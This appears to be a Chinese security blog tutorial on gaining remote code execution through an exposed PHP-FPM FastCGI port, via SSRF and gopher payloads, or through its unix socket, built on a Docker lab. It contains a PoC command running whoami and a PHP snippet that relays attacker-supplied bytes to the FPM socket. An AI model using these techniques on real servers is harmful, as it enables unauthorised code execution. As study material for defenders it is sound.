






前言
在看laravel8反序列化漏洞文章的时候，看到作者在下文中提到可以在9000端口利用ftp跟php-fpm达到rce， 对此很感兴趣，借此机会分析一下。这部分内容建议看一下FASTJSON协议与PHP-FPM，PHP-CGI之间的关系，以及在vps上手动配置一下加深理解。 这里有一篇很好的文章推荐一下。
https://www.xiebruce.top/606.html浅谈攻击原理
在TCP模式下，PHP-FPM默认监听9000端口，所以可以通过构造fastcgi协议和fpm进行通信， SCRIPT_FILENAME的值指定为任意后缀文件，但在PHP 5.3.9之后加入了fpm增加了security.limit_extensions选项， 所以需要去找个PHP文件。
{
'GATEWAY_INTERFACE': 'FastCGI/1.0',
'REQUEST_METHOD': 'GET',
'SCRIPT_FILENAME': '/var/www/html/index.php',
'SCRIPT_NAME': '/index.php',
'QUERY_STRING': '?a=1&b=2',
'REQUEST_URI': '/index.php?a=1&b=2',
'DOCUMENT_ROOT': '/var/www/html',
'SERVER_SOFTWARE': 'php/fcgiclient',
'REMOTE_ADDR': '127.0.0.1',
'REMOTE_PORT': '17',
'SERVER_ADDR': '127.0.0.1',
'SERVER_PORT': '80',
'SERVER_NAME': "localhost",
'SERVER_PROTOCOL': 'HTTP/1.1'
}那么，有了PHP文件名去执行目标机器上的PHP文件与RCE有什么关系呢？ 看到数据包内的auto_prepend_file跟allow_url_include两个字段，是不是感觉很熟悉。 没错，这个就是PHP.ini里面的配置项。修改数据包里的这两个环境变量可以临时改变PHP.ini的配置， 假若设置为auto_prepend_file = php://input且allow_url_include = On的话， 就可以将要执行的PHP指令放在BODY中去远程包含，从而达到RCE的目的。
这里从p神的EXP中也可以看出怎么构造出的数据包。
除了TCP模式，还有一个unix套接字是通过读写sock文件来进行通信， 具体读写的sock文件得看php-fpm或者nginx这些中间件的配置文件。 而且这种情况需要有特殊的代码段建立sock连接来写入tcp流通信，不能直接通过9000端口来打， 相对来说利用条件比较苛刻。
配置环境
保存以下内容到docker-compose.yml。
version: '2'
services:
php:
image: php:fpm
ports:
- "9000:9000"使用以下指令搭建及运行漏洞环境。
docker-compose build && docker-compose up -dTCP模式外网9000端口
查看一下php文件，利用条件需要有一个PHP文件，实战中可以使用默认安装环境下的PHP文件。
用p神的POC打一下，成功回显执行的代码。
python poc.py 127.0.0.1 /usr/local/lib/php/XML/Util.php -c "<?php echo \`whoami\`;?>"TCP模式内网9000端口
如果PHP-FPM监听的是内网的9000端口，那就需要搭配一个ssrf的点来打gopher。 这里用Gopherus-master生成payload。
这里演示一段curl造成的ssrf漏洞。如果在代码审计中， 遇到像前面文章审出的ssrf无回显的话，就可以直接用来弹个shell。
UNIX套接字SOCK通信
UNIX套接字这种的话，得能与sock建立通信。 配置nginx中的php-fpm模式为UNIX套接字后，在vps上写下代码测试。
<?php
$sock=stream_socket_client('unix:///run/php/php7.3-fpm.sock');
fputs($sock, urldecode(base64_decode($_GET['pwn'])));
var_dump(fread($sock, 4096));
?>首先用Gopherus-master生成payload，取_后面的内容进行base64编码。
再将payload打过去即可回显执行的内容。
There Is Nothing Below
 Turn at the next intersection.
Turn at the next intersection.